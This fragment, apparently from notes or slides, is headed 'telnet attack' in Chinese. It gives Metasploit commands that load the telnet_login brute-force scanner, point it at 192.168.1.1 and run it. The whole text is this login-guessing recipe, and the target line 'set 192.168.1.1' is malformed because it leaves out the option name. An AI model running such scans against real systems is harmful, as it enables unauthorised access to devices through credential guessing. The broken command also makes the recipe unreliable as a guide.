

# telnet 攻击
use auxiliary/scanner/telnet/telnet_login
set 192.168.1.1
exploit